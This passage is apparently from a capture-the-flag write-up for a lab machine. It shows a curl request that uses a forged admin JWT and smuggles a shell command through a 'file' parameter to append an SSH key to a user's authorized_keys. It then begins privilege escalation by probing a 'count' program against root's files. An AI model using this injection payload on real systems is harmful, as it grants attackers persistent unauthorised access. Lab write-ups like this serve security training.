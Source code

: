 ```
curl \
-i \
-H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkyMGU1MzQzNDAzMjA0NjQ1MjM0YjkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6IkFCQ0BleGFtcGxlLmNvbSIsImlhdCI6MTYzNjk2MjE1Nn0.CeB4nsKvRxnabY1eZ8ZZW7FFne4kkNtlWg9yB0Z5zS4' \
  -G \
--data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $sshkey1 >> /home/dasith/.ssh/authorized_keys" \
'http://10.10.11.120/api/logs'                                     
```


---
# Privilege Escalation 
Checking the files in the /opt/ directory, there are 2 files, code.c and its compiled version called "count". Running the code allows the attack to enter a file path or directory path:

If the user enters a Directory Path, all files and directories inside the specified one will be shown with their permissions. For example, only root has permissions for the .ssh directory
```
Enter source file/directory name: /root/
-rw-r--r--      .viminfo
drwxr-xr-x      ..
-rw-r--r--      .bashrc
drwxr-xr-x      .local
drwxr-xr-x      snap
lrwxrwxrwx      .bash_history
drwx------      .config
drwxr-xr-x      .pm2
-rw-r--r--      .profile
drwxr-xr-x      .vim
drwx------      .
drwx------      .cache
-r--------      root.txt
drwxr-xr-x      .npm
drwx------      .ssh

Total entries       = 15
Regular files       = 4
Directories         = 10
Symbolic links      = 1
Save results a file? [y/N]:

```

If the user enters a File Path, the program counts all characters, words and lines in the file.
```
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]:
```
